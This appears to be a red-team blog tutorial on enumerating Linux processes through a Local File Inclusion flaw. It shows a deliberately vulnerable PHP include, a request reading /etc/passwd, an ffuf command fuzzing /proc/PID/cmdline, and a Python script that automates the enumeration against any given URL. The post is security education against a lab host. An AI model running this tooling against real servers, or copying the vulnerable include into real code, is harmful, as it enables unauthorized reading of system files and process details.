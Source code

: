 ```yaml
---
title: Linux Process Enumeration Through LFI
author: Nobel Herrera
date: 2022-03-28 11:11:00 -0400
categories: [Linux, LFI, Enumeration, Web]
tags: [RedTeam, LFI, Web, Linux, Enumeration]
math: true
mermaid: true
image:
  path: /commons/devices-mockup.png
  width: 800
  height: 500
---
```


In this post, we’ll explore a technique to enumerate Linux processes through a web application vulnerable to LFI (Local File Inclusion).

File inclusion vulnerabilities allow attackers to read arbitrary files from local or remote systems and include the contents of the files in the web server’s response.

## A Vulnerable Web App
We'll use a simple php script to simulate our vulnerable web application. 
As shown in the following code, the `include` statement is used to copy into the `lfi.php` page, the contents of a file specified in the `lang` variable:

```php
<?php 
if(isset($_GET['lang'])){
        include($_GET['lang']);
} ?>ss
```

The following image shows a request/response to our web application, using the vulnerable parameter `lang` to read the `/etc/passwd` file: 

![pidlfi1](/docs/assets/lfipid1.png)

## The proc Filesystem
On Linux, the `/proc` directory contains one subdirectory for every process running on the system. These subdirectories are named after each process ID number (PID) that is active.

Into the PID subdirectories we’ll find several files with information related to the specific process. As an example, to get the command line arguments used to start a service, we can read the `cmdline` file. In the following image, `980` is the PID for the Apache server process: 

![pidlfi2](/docs/assets/pidlfi2.png)

A full list of these files and it's purpose can be found [here](https://www.kernel.org/doc/html/latest/filesystems/proc.html) 

## Enumerating PIDs with Ffuf
We'll create a number list and fuzz the PIDs with `ffuf`. Since all request returns a `200` status code, we'll use the `-fw 1` switch to filter responses with less than 2 words:  
```bash
for i in $(seq 1 5000); do echo $i >> pid.txt; done && \
ffuf -c -w pid.txt:FUZZ -u http://10.0.0.19/lfi.php?lang=/proc/FUZZ/cmdline -fw 1
```
![pidlfi3](/docs/assets/pidlfi3.png)

Now we can read the `cmdfile` of any of the found PIDs:

![pidlfi4](/docs/assets/pidlfi4.png){.left}


## Pythonizing the process
I've created a python script to automate the process and write the contents of the extracted PID files into an output file: 

```python
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) != 5:
    print ('[!] Missing parameter!')
    print ('[*] Syntax: pidenum.py URL max_PID_count proc_file output_file')
    print ('[*] Example: pidenum.py http://10.0.0.5/lfi.php?file= 2000 cmdline results.txt')
    sys.exit()

url = sys.argv[1]
pidtries = sys.argv[2]
procfile = sys.argv[3]
outputfilename = sys.argv[4]
resultsfile = open(outputfilename, mode = "w", encoding = "utf-8")
pid=1

try: 
    
    while pid <= int(pidtries):
        r = requests.get(url+ '/proc/' + str(pid) + '/' + procfile)      
        if len (r.text)!= 1:
            resultsfile.write ('[*] PID: ' + str(pid) + '\n')
            resultsfile.write ('[*] URL: ' + r.url + '\n')
            resultsfile.write ('[*] ' + procfile + ': ' + r.text + '\n')        
        pid += 1
        
    resultsfile.close()

except KeyboardInterrupt: pass
```

